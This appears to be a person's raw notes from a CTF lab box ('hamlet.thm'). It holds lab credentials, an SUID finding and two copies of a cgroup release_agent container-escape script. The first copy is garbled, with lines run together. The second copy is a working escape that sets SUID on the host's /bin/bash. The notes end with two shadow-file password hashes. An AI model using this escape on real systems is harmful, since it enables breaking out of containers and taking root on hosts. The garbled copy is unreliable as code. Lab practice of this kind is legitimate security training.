 Michael@webanno.hamlet.thm
ghost : vnsanctified


http://10.10.109.23:8000/repository/project/0/settings/


/stage unexpected folder in root

suid bit set to /bin/cat


/var/log/btmp                                                                                                         
/var/www/html/db/webanno.lck


root : murder

```
mkdir /tmp/cgrp1 && mount -t cgroup -o rdma cgroup /tmp/cgrp1 && mkdir /tmp/cgrp1/xecho 1 > /tmp/cgrp1/x/notify_on_release

host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp1/release_agentecho '#!/bin/sh' > /cmd
echo "whoami > $host_path/output" >> /cmd
chmod a+x /cmdsh -c "echo \$\$ > /tmp/cgrp1/x/cgroup.procs"

```

mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
 
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
 
echo '#!/bin/sh' > /cmd
echo "chmod u+s /bin/bash" >> /cmd
chmod a+x /cmd
 
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"


hashesh

ophelia:$6$HWE/x/JQ$QKo/NlS5KvMAivRVsGugIELqbUmWnQbhA8QzXTnIKQfcFC54VdV8xACitygTP3JcbngQuf8gNw/.M72.gIjbK1
ubuntu:$6$JOm/YuDK$d9/qcki6XYCpz20ZuzCxBxWsMYMIck2Japmqpolj00rFzmQ6Ygn5JeHq8eN3u3/nhnxwEjv0FxRQKQ/dNNqIe.